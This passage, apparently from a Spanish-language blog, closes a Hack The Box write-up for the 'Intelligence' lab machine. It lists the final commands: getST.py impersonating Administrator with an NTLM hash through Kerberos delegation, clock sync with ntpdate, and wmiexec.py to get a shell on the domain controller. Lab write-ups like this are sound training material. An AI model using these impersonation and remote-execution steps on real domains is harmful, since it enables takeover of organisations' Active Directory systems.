 
Ya podirmoa ahora si impersonar.


![list](/assets/img/intelligence/Kali-2022-09-10-03-55-38.png){:.lead width="800" height="100" loading="lazy"}


```python
getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :c923c2f7b19819afbff604121ea4117
```


{:.note}
Tenemos problemas con la hora debemos sincronizarnos con el servidor.


Para sincronizarse con el servidor utilizamos `ntpdate`.


```python
ntpdate -s 10.10.10.248
```


{:.note}
Al final de la resolucion debmos regresar a nustra hora con `date -s "tu zona horaria u hora"`.


repetimos `getST.py` eso nos devulve un Adminitrator.ccache que deberemos usar con la herramienta wmiexec.py trataremos de autenticarnos al domain controler entoces creamos una variable de entorno.


```python
KRB5CCNAME=Administrator.ccache
```


{:.note}
Incorporamos dc-intelligence.htb al /etc/host.


Y con todo esto lo que nos queda ya es tratar de autenticarno de la siguiente forma.


```python
wmiexec.py dc.intelligence -k -no-pass
```

{:.note}
La flag esta en el ecritorio del usuario privilegiado.


***
```bash
🎉 Felicitaciones ya has comprometido Intelligence de Hack The Box. 🎉
```
{:.centered}
***

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSEP](){:.heading.flip-title}
{:.read-more}




